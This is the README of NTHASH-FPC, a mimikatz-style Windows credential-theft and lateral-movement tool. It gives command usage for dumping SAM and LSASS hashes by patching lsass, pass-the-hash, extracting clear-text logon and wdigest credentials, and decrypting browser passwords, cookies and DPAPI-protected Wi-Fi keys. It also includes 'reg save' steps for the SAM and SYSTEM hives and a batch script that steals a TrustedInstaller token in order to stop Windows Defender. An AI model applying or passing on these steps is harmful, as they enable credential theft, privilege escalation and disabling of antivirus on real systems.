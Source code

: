 # NTHASH-FPC <br/>
A tribute to https://github.com/gentilkiwi/mimikatz... <br/>
And generally speaking a tool to handle windows passwords and perform lateral movement. <br/>
https://attack.mitre.org/matrices/enterprise/windows/ is definitely worth reading as well. <br/>

<br/>
Command line as below: <br/>
NTHASH /setntlm [/server:hostname] /user:username /newhash:xxx <br/>
NTHASH /setntlm [/server:hostname] /user:username /newpwd:xxx <br/>
NTHASH /changentlm [/server:hostname] /user:username /oldpwd:xxx /newpwd:xxx <br/>
NTHASH /changentlm [/server:hostname] /user:username /oldhash:xxx /newpwd:xxx <br/>
NTHASH /changentlm [/server:hostname] /user:username /oldpwd:xxx /newhash:xxx <br/>
NTHASH /changentlm [/server:hostname] /user:username /oldhash:xxx /newhash:xxx <br/>
NTHASH /gethash /password:password <br/>
NTHASH /getsid /user:username [/server:hostname] <br/>
NTHASH /getusers [/server:hostname] <br/>
NTHASH /getdomains [/server:hostname <br/>
NTHASH /dumpsam <br/>
NTHASH /dumphashes [/offline] <br/>
NTHASH /getsamkey [/offline] <br/>
NTHASH /getsyskey [/offline] <br/>
NTHASH /getlsakeys <br/>
NTHASH /wdigest <br/>
NTHASH /logonpasswords <br/>
NTHASH /pth /user:username /password:myhash /domain:mydomain <br/>
NTHASH /enumcred <br/>
NTHASH /enumcred2 <br/>
NTHASH /enumvault <br/>
NTHASH /chrome [/binary:path_to_database] <br/>
NTHASH /ccookies [/binary:path_to_database] <br/>
NTHASH /firefox [/binary:path_to_database] <br/>
NTHASH /fcookies [/binary:path_to_database] <br/>
NTHASH /bytetostring /input:hexabytes <br/>
NTHASH /stringtobyte /input:string <br/>
NTHASH /base64encodew /input:string <br/>
NTHASH /base64encode /input:string <br/>
NTHASH /base64decode /input:base64string <br/>
NTHASH /cryptunprotectdata /binary:filename <br/>
NTHASH /cryptunprotectdata /input:string <br/>
NTHASH /cryptprotectdata /input:string <br/>
NTHASH /runasuser /user:username /password:password [/binary: x:\folder\bin.exe] <br/>
NTHASH /runastoken /pid:12345 [/binary: x:\folder\bin.exe] <br/>
NTHASH /runaschild /pid:12345 [/binary: x:\folder\bin.exe] <br/>
NTHASH /runas [/binary: x:\folder\bin.exe] <br/>
NTHASH /runts /user:session_id [/binary: x:\folder\bin.exe] <br/>
NTHASH /enumpriv <br/>
NTHASH /enumproc <br/>
NTHASH /dumpproc /pid:12345 <br/>
NTHASH /runwmi /binary:x:\folder\bin.exe [/server:hostname] <br/>
NTHASH /context <br/>
NTHASH /a_command /verbose <br/>
NTHASH /a_command /system <br/>

<br/>

<b>changentlm</b>, using a legacy api, may not work if your ntlm hashes are encrypted with AES (i.e starting with win10 1607. <br/>
Credits goes to https://github.com/vletoux/NTLMInjector <br/>

<b>setntlm</b> on the other hand should always work and allow one to bypass password policy.  <br/>
Credits goes to https://github.com/vletoux/NTLMInjector <br/>

<b>dumpsam</b> will temporarily patch a module in lsass to be able to dump your SAM ntlm hashes from the lsass memory (need to cover/test as many windows version as possible). <br/>

<b>dumphash and dumphashes</b> will read the registry - you need to run as system to perform this action <br/>.
Or you can use the /system switch <br/>.
You can also perform this offline (and then no longer require to run as system). <br/>
You can use reg save hklm\sam sam.sav and reg save hklm\system system.sav to generate offline hives. <br/>
Both the RC4 and AES cipher are supported. <br/>
https://www.insecurity.be/blog/2018/01/21/retrieving-ntlm-hashes-and-what-changed-technical-writeup/ is a must read to understand RC4 vs AES. <br/>

<b>cryptunprotectdata and cryptprotectdata</b>  will decrypt datas using dpapi under the runnin user context. <br/>
You can for example decrypt the wireless stored password in C:\ProgramData\Microsoft\Wlansvc\Profiles\Interfaces\{INTERFACE UUID} .<br/>
Retrieve the xml keyMaterial value and run nthash /cryptunprotectdata /input:keymateriel /system .<br/> 
Note that this data is encrypted/decrypted under the system account. <br/>

<b>enumcred</b> will use CredEnumerate windows API to enumerate the logged on user credentials. <br/>
<b>enumcred2</b> will use CredEnumerate windows API to enumerate the logged on user credentials while also patching lsass to dump all credentials <br/>

<b>enumvault</b> will use vaultcli.dll windows API to enumerate the logged on user vault credentials. <br/>

<b>logonpasswords</b> will dump lsasrv logon sessions primary credentials (hashes) and credential managers (clear text) <br/>

<b>wdigest</b> will dump wdigest sessions credentials (clear text) <br/>

<b>runastoken</b> can be used to run a process under a system account. <br/>
Once under a system account, you can also "steal" a token from trustedinstaller (net start trustedinstaller before hand. <br/>
Note that you can steal a trustedinstaller token directly by using the /system switch. <br/>
With a trustedinstaller token, you can perform actions like stop windefend (or kill the process, or modify the AV settings, etc). <br/>
See example below where you would start the trustedinstaller service, retrieve its pid and run a process as the account. <br/>
<i>
@echo off <br/>
net start trustedinstaller <br/>
for /F "tokens=1" %%K in ('
   nthash-win64 /enumproc ^| findstr /i "trustedinstaller"
') do (
   nthash-win64 /runastoken /pid:%%K /system
)
<br/>
  </i>

<b>runaschild</b> can be used to run a process as a child of another existing/parent process. <br/>
Note that some apps (like cmd.exe) will crash right after initialization with a c0000142. <br/>
Wierdly enough, loading notepad.exe with this method and then launching cmd.exe from there works...

<b>runas</b> will launch a process in elevated mode. <br/>

<b>runts</b> will launch a process in the context of another TS session. <br/>
Note that this one needs the setcbprivilege so you will have to find a token with such privilege first (like winlogon.exe). <br/>

todo/news: <br/>
-decrypt sam hashes online (rather than patching lsass) and offline : done in v1.1 <br/>
-deal with new AES cipher used in latest win10 1607 : done in 1.2 <br/>
-enum Lsasrv.dll!LogonSessionList: done in 1.3 <br/>
-enum Wdigest.dll!l_LogSessList: done in 1.3 <br/>
-decrypt dpapi encrypted vault and/or credentials : done in 1.4 <br/>
-patch LogonSessionList and perform pth: done in 1.4 <br/>
-decrypt chrome and firefox passwords: done in 1.4 <br/>
-decrypt firefox and chrome passwords/cookies : done in 1.5 </br>
-dpapi command to dump all masterkeys : done in 1.6 </br>
-todo : work out LsaRetrievePrivateData </br>
-todo : work out LsaICryptUnprotectData thru dll injection </br>
-todo : work out masterkey decryption based on sha1 user password </br>
-todo : work out credential blob decryption based on decrypted masterkey </br>
